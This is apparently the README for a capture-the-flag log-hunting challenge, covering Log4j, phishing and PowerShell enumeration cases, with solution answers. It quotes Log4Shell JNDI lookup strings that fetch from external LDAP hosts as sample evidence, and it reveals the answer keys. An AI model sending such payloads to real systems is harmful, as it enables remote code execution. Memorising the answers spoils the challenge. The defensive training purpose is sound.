 # Seamless Intelligence Challenge

A challenge made for the Perth vs Canberra + Capture The Flag.

Difficulty: 400

## Notes
TODO:
 - finish readme

#### Case 1
**Log4j Zero Day**
Hunt down logs based around the zero day `log4j`
The challenge works like a combination lock. The user needs to discover all relevant log ID numbers and place them in chronological order.

Searching for IP address will find you the first two logs.

- An Apache log will contain a JNDI request in the url to a malicious external server. The answer will be a url stating flag portion. "X-Api-Version: ${jndi:ldap://foo.xyz/maliciousfile}"

- SSH log appears with accepted password to a remote user account on windows

**Solution**
There are a set of questions that need to be answered, once answered a flag will be provided.

1. ${jndi:ldap://ignis.fuse/crepitus}
2. remote
3. 1.100.1.111
4. merry

#### Case 2
Go to alert and pull the date from the alert

If you search around the same time as dave clicked the link, you will find ed doing the same action.
This then leads you to finding a POST request made to a phishing website.

Look throught the squid logs and a domain is not what it should be.

**Solution**
1. 12/sep/2022 10:48 am
2. free.com/cart.php
3. instargram.com

#### Case 3
**Alert 2**
Case: Multiple Users enumerated to different groups
Alarm: User Created
Logs: Hunt down large powershell log encoded in base 64

There is a total of 8 users that need investigating.
Simply search all the users that and find the log that does not look like normal activity.

**Solution**
- eve

#### Case 4
**Rule Creation**


## Obtaining Log Samples
http://www.secrepo.com/
Black Market Darknet Logs
EVTX Attack Samples 